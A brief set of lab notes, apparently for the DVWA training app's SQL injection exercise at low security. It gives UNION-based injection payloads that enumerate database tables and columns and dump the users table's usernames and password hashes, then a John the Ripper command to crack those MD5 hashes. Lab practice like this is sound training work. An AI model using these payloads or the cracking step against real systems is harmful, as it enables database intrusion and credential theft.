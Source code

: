 # LOW
`%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #`
`%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' #`
`%' or '0'='0' union select user, password from dvwa.users #`
https://www.tunnelsup.com/hash-analyzer/
`john --wordlist=rockyou.txt --format=Raw-MD5 hashes.txt`

